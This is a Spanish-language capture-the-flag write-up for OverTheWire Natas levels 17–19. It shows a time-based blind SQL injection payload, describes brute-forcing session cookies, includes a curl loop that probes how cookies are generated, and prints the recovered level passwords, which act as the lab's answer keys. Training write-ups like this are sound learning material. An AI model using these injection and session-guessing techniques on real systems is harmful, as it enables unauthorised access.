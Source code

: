 http://natas17.natas.labs.overthewire.org/

De nuevo blind injection, esta vez con MySQL. Dado que la url no tiene salida en ningún caso (ver source), habrá que optar de nuevo por la fuerza bruta concatenando un IF ... SLEEP en cada caso. Habrá que tener cuidado con el tiempo de SLEEP, logrando un balance entre que no tarde demasiado tiempo y que no haya errores por lentitud de respuesta.

Ejemplo de parámetro POST:

natas18" and if(1=1, sleep(3), null) #
natas18%22+and+if%281%3D1%2C+sleep%283%29%2C+null%29+%23

Posiblemente debemos usar LIKE y hacer dos pasadas, como en los casos anteriores:

1. La primera para determinar el juego de caracteres

2. La segunda para sacar la contraseña

Así que usaremos de nuevo un script en python (bruta3.py)

Después de unos minutos se obtiene este resultado:

* natas18 : xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

# natas18

Este lo hago de nuevo por fuerza bruta. Sin terminar de analizarlo en detalle, parece que lo único que podemos manupular es la cookie PHPSESSID y que está limitada a un rango de valores bajo, así que...

Ejecuto `bruta4.py`

natas19 : 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

# natas19

Aparentemente similar, pero parece que ya no puede usarse directamente PHPSESSID.

Vamos a ver cómo se genera haciendo unas cuantas llamadas:

```
while true; do curl -s -c - -I -u natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs 'http://natas19.natas.labs.overthewire.org?debug&username=admin&password=asdf'|awk '/Set-Cookie/ {print $2}'|awk -F= '{sub(/;/,""); print $2}'; done
3534362d61646d696e
3433342d61646d696e
3438372d61646d696e
3534382d61646d696e
3336382d61646d696e
3532322d61646d696e
31392d61646d696e
31332d61646d696e
38312d61646d696e
```

El contenido de la cookie tiene toda la pinta de ser ASCII en hexadecimal. Lo decodificamos y... ¡sorpresa!
